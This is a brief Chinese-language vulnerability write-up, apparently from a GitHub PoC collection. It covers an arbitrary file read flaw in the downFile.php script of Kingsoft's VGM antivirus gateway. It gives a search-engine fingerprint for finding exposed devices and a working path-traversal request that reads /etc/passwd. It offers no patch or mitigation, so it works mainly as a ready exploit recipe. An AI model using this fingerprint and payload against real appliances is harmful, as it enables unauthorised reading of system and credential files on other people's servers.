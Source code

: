 # 

# 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
金山 VGM防毒墙
```

## 网络测绘

```
"金山VGM"
```

## 漏洞复现

登录页面

![image-20230314090419140](images/image-20230314090419140.png)

验证POC

```
/downFile.php?filename=../../../../etc/passwd
```

![image-20230314090430563](images/image-20230314090430563.png)
